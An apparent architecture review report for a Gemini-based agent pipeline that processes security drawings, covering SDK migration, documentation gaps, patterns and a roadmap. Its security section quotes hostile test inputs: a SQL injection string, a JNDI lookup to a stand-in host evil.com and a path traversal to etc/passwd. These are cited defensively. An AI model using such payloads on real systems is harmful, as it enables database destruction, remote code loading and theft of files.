

# Architecture Review Report - Post Story 2.3

**Date**: 2025-08-10  
**Architect**: Winston  
**Scope**: Review of architecture alignment after Stories 0.1 through 2.3 completion  
**Objective**: Identify documentation updates needed without modifying completed work

## Executive Summary

The security drawing processing system has successfully completed Epic 1 (Stories 1.1-1.5) and partial Epic 2 (Stories 2.1-2.3), including a critical SDK migration (Story 0.1). The implementation is **solid and functioning**, but architecture documentation contains **outdated references** that need updating to reflect the current state.

**Key Finding**: The code implementation is correct. Only documentation needs updating.

## 1. Implementation Assessment

### ✅ Completed Stories Review

| Story | Title | Status | Architecture Impact |
|-------|-------|--------|-------------------|
| 0.1 | Google GenAI SDK Migration | ✅ Complete | Major - Changed entire AI integration layer |
| 1.1 | Project Setup & Basic API | ✅ Complete | Foundation established correctly |
| 1.2 | PDF Processing Pipeline | ✅ Complete | PDF processor integrated properly |
| 1.3 | Gemini Integration | ✅ Complete (after migration) | Now using GenAI SDK correctly |
| 1.4 | Excel Generation via Code Execution | ✅ Complete | Innovative use of Gemini code execution |
| 1.5 | Production Infrastructure | ✅ Complete | AWS serverless architecture ready |
| 2.1 | Context Processing Framework | ✅ Complete | Context agent properly integrated |
| 2.2 | Enhanced Drawing Analysis | ✅ Complete | Schedule agent enhanced with context |
| 2.3 | AI Judge Implementation | ✅ Complete | Judge agent fully implemented |

### Current System Architecture



## 2. Documentation vs Implementation Gaps

### 🟢 Documentation Already Updated (No Action Needed)
- ✅ `tech-stack.md` - Already shows GenAI SDK migration complete
- ✅ `external-apis.md` - Already documents GenAI SDK as current, Vertex as legacy
- ✅ `components.md` - Already notes SDK migration complete
- ✅ All story files (0.1-2.3) - Accurate development records

### 🟡 Documentation Partially Outdated (Update Needed)

| File | Current State | Required Updates |
|------|---------------|------------------|
| `ARCHITECT-ACTION-REQUIRED.md` | Shows migration as pending | Mark as COMPLETED, archive concerns |
| `gemini-sdk-migration-plan.md` | Shows as active plan | Mark as COMPLETED, add results |
| `index.md` | May reference old patterns | Verify all examples use GenAI SDK |
| `high-level-architecture.md` | Not checked | Verify authentication section |
| `coding-standards.md` | Not checked | Ensure SDK patterns documented |
| `test-strategy-and-standards.md` | References VCR.py | Note VCR.py removed in Story 0.1 |

## 3. Architectural Patterns Confirmed

### ✅ Successfully Implemented Patterns

1. **BaseAgentV2 Pattern**
   - All agents inherit from BaseAgentV2
   - Consistent client initialization
   - Proper error handling and logging
   - Storage abstraction properly used

2. **Authentication Simplification**
   ```python
   # Successfully migrated from:
   # Service Account → OAuth2 → Project → Location
   # To simple:
   GEMINI_API_KEY environment variable
   ```

3. **Native PDF Processing**
   - Direct PDF upload via File API
   - No manual image conversion
   - 258 tokens per page
   - Supports up to 1000 pages

4. **Pipeline Architecture**
   - Context → Schedule → Excel → Judge
   - Non-blocking judge evaluation
   - Proper checkpoint management
   - Resilient error handling

5. **Storage Abstraction**
   - LocalStorage for development
   - Interface ready for AWS implementation
   - Consistent across all agents

## 4. Security Architecture Review

### ✅ Security Measures Properly Implemented

1. **Authentication**
   - API key stored in environment variable
   - No hardcoded credentials
   - Proper key validation in BaseAgentV2

2. **Input Validation**
   - PDF validation before processing
   - File size limits (100MB)
   - Content type checking
   - Password-protected PDF handling

3. **Path Traversal Protection**
   - Observed concerning test data in `local_output/`:
     ```
     '; DROP TABLE clients;--/
     ${jndi:ldap://evil.com/a}/
     etc/passwd
     ```
   - These appear to be security test artifacts
   - Recommendation: Verify input sanitization is working

4. **Error Handling**
   - No sensitive data in error messages
   - Proper exception catching
   - Graceful degradation

## 5. Performance Architecture Observations

### ✅ Performance Optimizations Implemented

1. **Model Selection**
   - Flash for cost-sensitive operations (context, Excel)
   - Pro only for complex analysis (schedule extraction)
   - Judge uses Flash (sufficient for evaluation)

2. **Token Optimization**
   - Native PDF reduces token usage
   - Context filtering implemented
   - Smart prompt construction

3. **Async Processing**
   - Judge runs async, non-blocking
   - Pipeline continues on partial failures
   - Proper checkpoint recovery

4. **Cost Optimization**
   - Code execution for Excel (no extra cost)
   - Context caching potential (not yet implemented)
   - Batch processing ready (not yet implemented)

## 6. Forward-Looking Recommendations

### 🎯 Documentation Updates (No Code Changes)

1. **Immediate Updates** (Priority 1)
   - Update `ARCHITECT-ACTION-REQUIRED.md` → Mark migration complete
   - Update `gemini-sdk-migration-plan.md` → Add completion notes
   - Create migration success metrics summary

2. **Architecture Documentation** (Priority 2)
   - Review and update `index.md` examples
   - Update `high-level-architecture.md` auth section
   - Update `test-strategy-and-standards.md` remove VCR.py

3. **Standards Documentation** (Priority 3)
   - Document GenAI SDK patterns in `coding-standards.md`
   - Add agent development guidelines
   - Document checkpoint patterns

### 🚀 Future Architecture Enhancements (Post-MVP)

**These are suggestions for AFTER current development completes:**

1. **Caching Strategy**
   - Implement Gemini context caching (75% cost savings)
   - Cache frequently used contexts
   - Implement TTL management

2. **Batch Processing**
   - Group similar drawings for batch processing
   - Leverage 50% cost reduction
   - Implement queue batching logic

3. **Monitoring & Observability**
   - Add structured logging across all agents
   - Implement cost tracking per job
   - Add performance metrics dashboard

4. **Multi-Model Strategy**
   - Experiment with Gemini 1.5 for simple tasks
   - Consider Gemini Thinking for complex reasoning
   - A/B testing framework for model selection

5. **Security Hardening**
   - Implement rate limiting
   - Add request signing
   - Enhance input sanitization
   - Add audit logging

## 7. Risk Assessment

### 🟢 Low Risk Items
- Documentation updates
- Adding comments/logging
- Updating README files

### 🟡 Medium Risk Items (Future)
- Implementing caching (needs testing)
- Batch processing (changes job flow)
- Adding monitoring (performance impact)

### 🔴 High Risk Items (Avoid Now)
- Changing agent interfaces
- Modifying checkpoint formats
- Altering pipeline sequence
- Changing storage patterns

## 8. Compliance Check

### Architecture Principles Adherence

| Principle | Status | Evidence |
|-----------|--------|----------|
| Separation of Concerns | ✅ | Clean agent boundaries |
| Single Responsibility | ✅ | Each agent has one job |
| Dependency Injection | ✅ | Storage interface pattern |
| Error Recovery | ✅ | Checkpoint system |
| Security First | ✅ | Input validation, auth |
| Cost Optimization | ✅ | Model selection strategy |
| Scalability | ✅ | Serverless ready |
| Maintainability | ✅ | Clean code structure |

## 9. Recommended Action Plan

### Phase 1: Documentation Sync (Immediate)
1. [ ] Update migration-related documents
2. [ ] Archive completed action items
3. [ ] Update architecture diagrams
4. [ ] Review and update examples

### Phase 2: Knowledge Capture (This Week)
1. [ ] Document SDK migration lessons learned
2. [ ] Create agent development guide
3. [ ] Document checkpoint patterns
4. [ ] Update troubleshooting guides

### Phase 3: Future Planning (Post-MVP)
1. [ ] Design caching strategy
2. [ ] Plan batch processing implementation
3. [ ] Design monitoring architecture
4. [ ] Plan security enhancements

## Conclusion

The system implementation through Story 2.3 is **architecturally sound** and follows best practices. The SDK migration was successfully completed, and all agents are properly implemented using the new GenAI SDK.

**No code changes are required.** The architecture documentation needs updates to reflect the current implementation state, particularly removing references to the deprecated Vertex AI SDK and documenting the successful migration.

The team has built a solid foundation that:
- ✅ Uses modern Google GenAI SDK
- ✅ Implements proper abstraction patterns
- ✅ Handles errors gracefully
- ✅ Optimizes for cost and performance
- ✅ Maintains security best practices

### Final Recommendation

**Proceed with current development.** Update documentation in parallel without disrupting the development flow. The architecture is healthy and ready for continued feature development.

---

**Reviewed by**: Winston (System Architect)  
**Review Date**: 2025-08-10  
**Next Review**: After Epic 2 completion